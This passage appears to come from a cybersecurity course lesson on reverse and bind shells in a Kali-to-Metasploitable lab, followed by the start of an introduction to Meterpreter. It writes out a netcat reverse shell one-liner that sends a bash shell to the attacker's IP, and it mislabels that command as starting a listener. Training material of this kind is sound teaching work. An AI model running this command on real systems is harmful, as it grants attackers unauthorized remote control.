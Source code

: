 
2. On the Metasploitable VM, run the following command:

   - `nc 192.168.0.8 4444 -e /bin/bash`

     -  `nc`: Starts the listener on port `4444`.
     - `-e /bin/bash`: Provides a shell to the connecting machine, in this case the attacking Kali machine.

   ![REV 2](Images/REVERSE_2.png)

3. Back on the Kali machine, you should see a successful connection.

    - Demonstrate code execution by running the following on the Kali machine:

       - `whoami`
       - `ifconfig`

    - This demonstrates that the shell on the target is active and responding.

       ![REV 1](Images/REVERSE_1.png)

    - This  means that you have successfully established a connection between the attacker and target machines.


### 03. Bind and Reverse Shells and Ncat Activity 

- [Activity File: Bind and Reverse Shell and Ncat](Activities/03_Bind_and_Reverse/Unsolved/README.md)


### 04. Review Bind and Reverse Shells and Ncat Activity 

- [Solution File: Bind and Reverse Shell and Ncat](Activities/03_Bind_and_Reverse/Solved/README.md)

### 05.  First Steps with Meterpreter

Metasploit is a convenient tool suite that automates entire steps of engagements and enables complex and advanced techniques. 

- For example, Metasploit can exploit a target _and_ open a session onto it in a single step.

- In fact, when we exploited a vulnerability with Metasploit and MSFconsole in the previous class, we also opened a Meterpreter session. However, we did not interact with it. 
